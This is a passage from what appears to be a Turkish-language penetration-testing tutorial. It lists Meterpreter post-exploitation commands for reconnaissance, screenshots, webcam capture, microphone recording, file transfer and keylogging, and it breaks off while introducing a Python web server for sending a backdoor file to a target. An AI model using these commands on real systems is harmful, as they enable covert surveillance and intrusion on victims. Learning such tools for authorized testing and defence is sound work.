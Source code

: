 ### 🎮 **Meterpreter Komutları - Temel Seviye:**
```bash
# Sistem bilgilerini al
sysinfo

# Mevcut kullanıcıyı öğren
getuid

# Çalışan işlemleri listele
ps

# Ağ bağlantılarını görüntüle
netstat

# Dosya sistemini keşfet
ls
pwd
cd
```

### 🎮 **Meterpreter Komutları - Gelişmiş Seviye:**
```bash
# Ekran görüntüsü al
screenshot

# Webcam'den fotoğraf çek
webcam_snap

# Mikrofon kaydı al
record_mic -d 30

# Dosya indir
download dosya.txt

# Dosya yükle
upload dosya.txt

# Klavye tuşlarını kaydet
keyscan_start
keyscan_dump
keyscan_stop
```

---

## 4️⃣ Web Sunucusu ile Dosya Gönderme 🌐

### 📡 **Python ile Hızlı Web Sunucusu:**
Hedef cihaza backdoor dosyasını göndermek için basit bir web sunucusu kurulabilir. Bu, bir "dosya paylaşım merkezi" gibi çalışır.
